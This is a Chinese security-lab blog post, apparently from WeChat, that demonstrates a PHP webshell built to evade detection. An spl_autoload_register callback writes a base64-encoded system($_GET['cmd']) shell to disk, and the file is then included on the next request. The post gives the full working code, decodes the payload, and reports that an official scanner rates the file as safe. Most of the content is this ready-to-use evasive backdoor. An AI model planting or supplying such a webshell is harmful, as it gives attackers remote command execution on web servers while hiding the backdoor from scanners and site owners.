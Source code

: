 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/WiqZEApL3nVgZDv7nJ4gOw)

  

网安引领时代, 弥天点亮未来

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x00 具体操作**  

  

**1. 绕过代码如下:**

```
<?php
spl_autoload_register(function ($class_name){
    file_put_contents(base64_decode("YWFh"), base64_decode('PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4='));
});
include('aaa');
new aaa();
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDTiaB89dEROUmPfzcyP9TKlGicWvHia2jU1jg2GdEMOHHIxVuiayoLn4tS8gTru1AQIxC5QMmYaNHicCA/640?wx_fmt=png)  
 **2.spl_autoload_register 的作用, 将函数注册到 spl_autoload_register(可以是匿名函数), 当实例化一个不存在的类的时候, 会去调用该函数.**

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDTiaB89dEROUmPfzcyP9TKlibvtqfDvEibScT9WmWpsIKKkmJiaje2TZ7g2VQrlbbiaBtcoVGjiaUDWb0A/640?wx_fmt=png)

**3. 先调用 include('aaa'), 会报错, 因为没有这个文件, 之后进行实例化 new aaa(), 又会报错, 因为没有 aaa 这个类, 会去执行 spl_autoload_register 注册的函数里面的代码**  

```
file_put_contents(base64_decode("YWFh"), base64_decode('PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4='));
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDTiaB89dEROUmPfzcyP9TKlO8v5KnZn36Jw5bScBUL6rCfxoyianibDb8XHQydbLm4SNCc8NzDqvwAA/640?wx_fmt=png)

**4. 其中 YWFh 解码之后是 aaa,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4 = 解码之后是 <?php system($_GET['cmd']);?>, 相当于在 web 根目录下面创建 aaa 文件写入内容是 <?php system($_GET['cmd']);?>**

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDTiaB89dEROUmPfzcyP9TKl5WhS2icBm89DUMaLa1zal6fRicMurJibFOk3LjBsxdibZIGd4VdaCSia6Rg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDTiaB89dEROUmPfzcyP9TKlZKXjicicSRb9iaJp3WIA1EQmuo9B98gfwsZjmtWSzUSbicicibPCZY1VckQQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDTiaB89dEROUmPfzcyP9TKl04WeWrictDInxLESTCRibey2wPdsMZTq4WFRDK973gZLvEwhWBaHCI1w/640?wx_fmt=png)

**5. 第二次再刷新页面, 就可以成功执行了 include('aaa');, 因为第一次访问已经创建 aaa 文件并且写入内容了.  
6. 测试结果, 第二次访问成功执行命令, 后面 Fatal error: Class 'aaa' not found 的报错无视即可.**

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDTiaB89dEROUmPfzcyP9TKlypiawpwKGEJPuudzs4F9nKQfPZYe6Xhl7M1XlVI049CVia7rAdJW8aSA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDTiaB89dEROUmPfzcyP9TKliaCJB60mHCErNyj4IVqtxA3QuXKEgAc2lED2tcj4oGGCf4W9ZAE6B1Q/640?wx_fmt=png)

**7. 官网扫描结果, 该文件扫描结果显示的是安全**  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDTiaB89dEROUmPfzcyP9TKlpiaBIDmmuDvLEsIxPYOFUHvZYPfPJmRWgiaFfw82BRQuPOIDJXs5vrMQ/640?wx_fmt=png)

**8. 欢迎加入弥天安全实验室交流群.  
**

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAD64Hjzibz9XxY4SwcYXKBWSOYSbvDLUw9ZXUl7oOBJJKQvibd59SOVLr65aKibCrV4Z4Jsjfaia59uw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif) 

知识分享完了

喜欢别忘了关注我们哦~  

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  

![](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=jpeg)